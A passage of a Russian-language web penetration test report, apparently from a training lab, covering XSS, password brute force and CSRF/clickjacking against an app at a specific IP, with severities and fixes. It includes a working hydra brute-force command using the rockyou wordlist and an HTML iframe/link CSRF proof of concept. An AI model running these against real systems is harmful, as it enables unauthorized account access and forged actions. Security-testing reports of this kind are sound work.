<details>
<summary>Подробности реализации</summary>

1. Заходим на стартовую страницу `http://92.51.39.106:8060/`, заполнить уязвимое поле `With this name` и нажать `Send file`  

![](pic/reflected-xss-index.png)  
Далее мы будем перенаправлены на уязвимую страницу `http://92.51.39.106:8060/piccheck.php`  

![](pic/reflected-xss.png)  

2. Заходим на любую страницу содержащую поисковое поле, например `http://92.51.39.106:8060/pictures/search.php?query=`.  
Используем полигон для тестирования XSS.  

![](pic/reflected-xss-search.png)  

3. Заходим на любую страницу `http://92.51.39.106:8060/guestbook.php` и заполням поля `Name` и `Comment`.  

![](pic/stored-xss-test.png)  

Используем полигон для тестирования XSS.  

![](pic/stored-xss.png)  


</details></blockquote>
</details>

-----

<details>
<summary>Перебор паролей</summary><blockquote>

**Описание**: При авторизации в приложении нет ограничений на количество попыток ввода паролей пользователей, что открывает возможность к перебору пароля от известного пользователя или подбору комбинации логина и пароля.   
**Критичность:** <font color="orange">**Средняя**</font>  
Существует возможность выполнения следующих действий:  
- Подбор пароля методом "грубой силы"

**Предложения по исправлению**:  
 - Установить ограничение попыток ввода пароля
 - Установить ограничение попыток авторизации по IP-адресу

<details>
<summary>Подробности реализации</summary>

Для упрощения задачи используем заданее известный логин пользователя `test`. 

```
hydra -l test -P "/usr/share/wordlists/rockyou.txt" -s 8060 92.51.39.106 http-post-form "/users/login.php:username=t
est&password=^PASS^:F=The username/password combination you have entered is invalid" -f -v
```

![](pic/hydra-scan.png)

</details></blockquote>
</details>

-----

<details>
<summary>Реализация атаки XSRF, Сlickjacking</summary><blockquote>

**Описание**:   
Уязвимость позволяет заставить пользователя, который находится на одном сайте выполнять действия на другом сайте. Это работает за счет отправки от имени пользователя запросов на другой сайт, где у пользователя есть активная сессия. Целевой сайт будет получать сессионные куки пользователя, проводить идентификацию и выполнять запрос от имени пользователя. В случае атаки `Сlickjacking` сущетвует возможность открыть целевой сайт в `iframe` и отобразить поверх своего сайта с прозрачным фоном. Пользователь будет работать с одним сайтом и тем временем наживать реальные кнопки в `iframe` и выполнять действия на другом сайте.  
**Критичность:** <font color="orange">**Средняя**</font>  
Существует возможность выполнения следующих действий:  
- Загрузка сайта в iframe 
- Отправка запросов на другой сайт вместе с сессионными куками  

**Предложения по исправлению**:  
 - Установить флаг сессионной куки `SameSite:"Strict"`
 - Установить заголовок `X-Frame-Options: SAMEORIGIN` или `DENY`  
 `DENY`- Никогда не показывать страницу внутри фрейма.  
 `SAMEORIGIN` - Разрешить открытие страницы внутри фрейма только в том случае, если родительский документ имеет тот же источник.
- Добавить csrf токены на страницы и производить проверку токена при осуществлении действий на странице.  
<details>
<summary>Подробности реализации</summary>

- Создаем страницу с подготовленной формой и `iframe` с целевым сайтом  

```
<a href="http://92.51.39.106:8060/cart/action.php?action=add&picid=11">Add to card</a>
<br>
   
<iframe width="1000px" height="1000px" src="http://92.51.39.106:8060"></iframe>
```
- Пользователь нажимает кнопку `Add to card` и тем временем выполняет запрос на добавление элемента в карзину на другом сайте.

![](pic/fake-site.png)  

![](pic/csrf-example.png)

</details></blockquote>
</details>

-----

## Используемые инструменты
- OWASP ZAP
- Hydra
- Sqlmap
- NMap
- Python 3 (http-server)
- Kali linux
- [Dirsearch](https://www.kali.org/tools/dirsearch/)
- Visual Studio Code
- Mozilla Firefox
- Yandex Browser

## Источники информации
- [OWASP Top 10 - 2021](https://owasp.org/Top10/)
- [OWASP WSTG](https://owasp.org/www-project-web-security-testing-guide/)
- [XSS Polyglot](https://github.com/0xsobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot)  
- [Exploit-db](https://www.exploit-db.com/)